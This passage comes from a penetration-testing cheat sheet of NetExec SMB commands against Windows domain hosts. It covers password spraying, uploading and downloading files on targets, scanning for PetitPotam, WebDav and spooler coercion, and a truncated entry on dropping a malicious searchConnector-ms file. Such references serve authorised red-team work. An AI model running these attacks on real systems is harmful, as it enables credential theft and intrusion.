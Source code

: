 ```bash
nxc smb <dc_ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## smb - password spray multiple test 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(carrefull on lockout)

```bash
nxc smb <dc_ip> -u <user.txt> -p <password.txt> --continue-on-success
```

## smb - put file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## smb - get file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```


## smb - find vulnerable to petitpotam coerce 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/RECON 

```bash
nxc smb <ip> -u <user> -p <password> -M PetitPotam
```

## smb - find runing WebDav clients (coerce over http)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/RECON 
try to force WebDav to start  with -M drop-sc
```bash
nxc smb <ip_range> -u <user> -p <passwd> -M webdav
```

## smb - Checking if the service spooler is running
#plateform/linux #target/remote #port/445 #protocol/smb #cat/RECON 
```bash
nxc smb <ip_range> -u <user> -p <passwd> -M spooler
```

## smb - drop malicious ..searchConnector-ms file  (enable WebDav)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/COERCE-FILE
in every writable folder on the target server 
	